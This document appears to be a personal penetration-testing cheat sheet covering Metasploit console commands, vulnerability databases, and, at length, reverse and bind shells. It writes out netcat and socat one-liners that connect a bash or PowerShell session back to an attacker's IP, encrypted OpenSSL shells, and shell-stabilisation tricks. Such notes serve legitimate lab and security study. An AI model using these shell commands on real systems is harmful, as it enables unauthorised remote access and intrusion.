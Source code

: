 # General

## Commands
* [grep](https://tldr.ostera.io/grep)
* `chmod +x ./<filename>` : Make a file executable
* `wget <link location>`
* `uname` : Print certain system information
* `python3 -m http.server <port>`: Start up a simple local HTTP server
  * `-m`: run library module as a script

## Vulnerability Databases
* [National Vulnerability Database](https://nvd.nist.gov/vuln/full-listing)
* [Exploit-DB](https://www.exploit-db.com/)
* [Rapid7](https://www.rapid7.com/db/)

## Metasploit
* `msfconsole`: The command line interface
* `set <option> <value>`: Set the given option to value
* `history`: See commands typed earlier
* `search <options> <keywords>:<value>`
* `use <module>`
* `info`
* `back`: Leave the context
* `show options`
* `setg`: Set values that will be used for all modules
* `exploit` or `run`
* Ctrl+Z: Make the session into a background task
* Metasploit Database
  * First, start a database
  * `msfdb init`
  * `db_status`: Check the database status
  * `workspace`: List available workspaces
  * `workspace -a/-d <name>`: Add/Delete a workspace
  * `db_nmap`: The nmap results will be stored to the database
  * `hosts` or `services`: List host and service information of the target system
  * `hosts -R`: Once host information is stored in database, use this command to add the value to the RHOSTS parameter

## Reverse Shell and Bind Shell
* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* Reverse Shell
  * The attacking machine opens a listner and the target machine connects back to it
* Bind Shell
  * The target machine opens a listner and the attacking machine connects to it
* Netcat
  * `nc -lvnp <port>`: Netcat listening on a port
    * `-l`: Be a listener
    * `-v`: Verbose
    * `-n`: Don't resolve host names or use DNS
    * `-p`: Port specification
  * `nc <ip> <port>`
  * `nc -lnvp <port> -e /bin/bash`: A bind shell listener
  * `nc <ip> <port> -e /bin/bash`: Connect to reverse shell
* Netcat Shell Stabilisation
  * Python
    * `python -c 'import pty;pty.spawn("/bin/bash")'`: Spawn a better featured bash shell
    * `export TERM=xterm`: Gives access to term commands such as `clear`
    * Ctrl+Z + `stty raw -echo; fg`: It turns off our own terminal echo (which allows pressing tab, arrow keys, and Ctrl+C), then foreground the shell 
  * `rlwrap nc -lvnp <port>`
* Socat
  * `socat TCP-L:<port> -`: Socat listening on a port
  * `socat TCP:<ip>:<port> EXEC:powershell.exe,pipes`: Connect back to socat listener on Windows
    * pipes forces powershell to use Unix style standard input and output
  * `socat TCP:<ip>:<port> EXEC:"bash -li"`: Connect back to socat listener on Linux
  * `socat TCP-L:<port> EXEC:powershell.exe,pipes`: Bind shell on Windows
  * `socat TCP-L:<port> EXEC:"bash -li"`: Bind shell on Linux
  * `socat TCP:<TARGET-IP>:<TARGET-PORT> -`: Connect to bind shell
  * ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```: A fully stable tty Linux reverse shell
  * `socat TCP:<ip>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`: Special command to connect to the stable reverse shell
  * Encrypted shells
    * `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`: Generate a certificate
    * `cat shell.key shell.crt > shell.pem`: Merge the 2 files into a simple .pem file
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`: Reverse shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 EXEC:/bin/bash`: Connect back to reverse shell
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`: Bind shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 -`: Connect to bind shell
